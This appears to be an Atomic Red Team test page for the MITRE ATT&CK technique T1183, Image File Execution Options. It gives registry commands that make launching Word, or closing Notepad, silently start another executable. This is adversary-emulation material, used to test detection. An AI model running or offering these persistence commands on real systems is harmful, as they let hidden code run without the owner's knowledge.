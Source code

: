 # Image File Execution Options

MITRE ATT&CK Technique: [T1183](https://attack.mitre.org/wiki/Technique/T1183)

## Debugger

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\winword.exe" /v Debugger /d "C:\folder\AtomicRedTeam.exe"


## GlobalFlags

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\folder\AtomicRedTeam.exe"

